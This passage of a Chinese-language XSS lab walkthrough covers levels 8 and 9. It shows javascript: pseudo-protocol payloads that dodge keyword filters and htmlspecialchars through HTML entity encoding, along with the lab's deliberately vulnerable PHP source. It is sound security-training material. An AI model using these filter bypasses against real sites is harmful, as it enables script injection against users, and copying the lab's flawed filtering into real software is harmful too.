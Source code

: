这次的过滤就是破环输入的`payload`了。使用`javascript`伪协议，但是其中被`htmlspecialchars`转义了。使用伪协议和不带有五种特殊字符的载荷。

输出点在哪里。在友情链接处。

这个过滤了很多的内容，需要考虑用编码绕过。

**html实体编码绕过**

[HTML实体引用](http://www.howtocreate.co.uk/sidehtmlentity.html)

		十进制	十六进制
	t	&#116;	&#x74;

payload

	javascrip&#x74;:alert(document.domain)
	</center><center><BR><a href="javascrip&#x74;:aler&#x74;(document.domain)">友情链接</a></center><center><img src=level8.jpg></center>

这种编码，`WAF`没有拦截。

	192.168.86.208/?id=javascrip&#116;:aler&#x74;(document.domain)


**疑问**

	<?php
	$a = $_GET['a'];
	echo ($a);
	?>

使用`html`实体测试这个的时候，没有成功，无弹窗。是输出点不一样吗，考虑是输出位置的原因吗？


	t	&#116;	&#x74;

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-11-15/91824142.jpg)


![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-11-15/44878964.jpg)



**9关**

源码 

	<?php 
	ini_set("display_errors", 0);
	$str = strtolower($_GET["keyword"]);
	$str2=str_replace("script","scr_ipt",$str);
	$str3=str_replace("on","o_n",$str2);
	$str4=str_replace("src","sr_c",$str3);
	$str5=str_replace("data","da_ta",$str4);
	$str6=str_replace("href","hr_ef",$str5);
	$str7=str_replace('"','&quot',$str6);
	echo '<center>
	<form action=level9.php method=GET>
	<input name=keyword  value="'.htmlspecialchars($str).'">
	<input type=submit name=submit value=添加友情链接 />
	</form>
	</center>';
	?>
	<?php
	if(false===strpos($str7,'http://'))
	{
	  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
	        }
	else
	{
	  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
	}
	?>
